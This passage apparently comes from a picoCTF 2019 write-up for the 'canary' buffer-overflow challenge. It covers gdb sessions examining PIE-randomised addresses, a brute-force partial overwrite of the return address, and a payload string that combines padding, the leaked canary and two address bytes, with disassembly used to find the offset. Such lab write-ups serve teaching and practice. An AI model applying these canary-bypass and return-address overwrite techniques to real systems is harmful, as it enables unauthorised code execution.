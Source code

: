 Great we have the canary: `57Gh`

However, it's not as simple as the usual buffer overflow now. since PIE or ASLR is enabled, the address of `display_flag()` is randomized. 

Let's check the value once:

```
samson@pico-2019-shell1:/problems/canary_3$ gdb ./vuln 
(gdb) b main
Breakpoint 1 at 0xa14
(gdb) run
Starting program: /problems/canary_3/vuln 

Breakpoint 1, 0x56586a14 in main ()
(gdb) x display_flag
0x565867ed <display_flag>:      0x53e58955
-----------------
samson@pico-2019-shell1:/problems/canary_3$ gdb ./vuln 
(gdb) x display_flag
0x7ed <display_flag>:   0x53e58955
(gdb) b main
Breakpoint 1 at 0xa14
(gdb) r
Starting program: /problems/canary_3/vuln 

Breakpoint 1, 0x565cfa14 in main ()
(gdb) x display_flag
0x565cf7ed <display_flag>:      0x53e58955
```

Interestingly enough, for some reason if you try this over and over again, the addresses seem to repeat. Only 3 bytes.
Let's brute force it? We can attempt to use one of the addresses and hope there will a chance it'll work.

Again, this will only work since we're in 32-bit mode, even more so since only a few of the 32 bits are random.

Let's construct our payload:
```
payload = "A"*32 + canary + "A"*16 + "\xed\x07"
```

We can determine the offset from the canary to the bottom of the stack but looking at the assembly code for the offset to the frame pointer, trail and error with multiples of 4, or even using the pwntools cyclic command.

In this case, I'll use GDB for brevity, remember that we're looking for `ebp` when looking for clues of an offset. 0x10 is 16 bytes.

```
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x000008f4 <+0>:     push   %ebp
   0x000008f5 <+1>:     mov    %esp,%ebp
   0x000008f7 <+3>:     push   %ebx
   0x000008f8 <+4>:     sub    $0x54,%esp
   0x000008fb <+7>:     call   0x6f0 <__x86.get_pc_thunk.bx>
   0x00000900 <+12>:    add    $0x16a0,%ebx
   0x00000906 <+18>:    movl   $0x0,-0xc(%ebp)
   0x0000090d <+25>:    lea    0x6c(%ebx),%eax
   0x00000913 <+31>:    mov    (%eax),%eax
   0x00000915 <+33>:    mov    %eax,-0x10(%ebp)    <<<<
   0x00000918 <+36>:    sub    $0xc,%esp
   0x0000091b <+39>:    lea    -0x1414(%ebx),%eax
```
